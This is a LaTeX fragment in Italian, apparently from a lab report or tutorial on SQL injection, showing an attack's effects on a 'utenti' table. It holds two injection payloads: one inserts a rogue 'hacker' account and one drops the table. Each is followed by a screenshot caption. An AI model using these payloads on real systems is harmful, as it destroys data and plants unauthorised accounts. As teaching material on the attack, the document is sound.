 \documentclass[a4paper,12pt]{article}
\begin{document}
\begin{figure}[h!]
  \centering
  \includegraphics[width=0.7\textwidth]{dopo_update.png}
  \caption{Tabella utenti dopo l'attacco: la password dell'amministratore è stata modificata.}
\end{figure}



\subsection*{Inserimento di nuovi dati}

Un attaccante può anche aggiungere nuovi utenti al sistema.  
La seguente iniezione SQL consente di inserire un utente denominato \texttt{hacker} con password \texttt{hacked}:

\begin{lstlisting}
'; INSERT INTO utenti (username, password) VALUES ('hacker', 'hacked'); -- 
\end{lstlisting}

\begin{figure}[h!]
  \centering
  \includegraphics[width=0.7\textwidth]{inserimento_hacker.png}
  \caption{Risultato della SQL Injection: l'attaccante ha inserito un nuovo utente nel database.}
\end{figure}



\subsection*{Eliminazione della tabella}

Una delle conseguenze più gravi di una SQL Injection è la perdita completa dei dati.  
Con la seguente iniezione è possibile eliminare l'intera tabella utenti:

\begin{lstlisting}
'; DROP TABLE utenti; -- 
\end{lstlisting}

\begin{figure}[h!]
  \centering
  \includegraphics[width=0.7\textwidth]{drop_table.png}
  \caption{Errore del database dopo l'esecuzione di una SQL Injection che ha eliminato la tabella \texttt{utenti}.}
\end{figure}
\end{document}
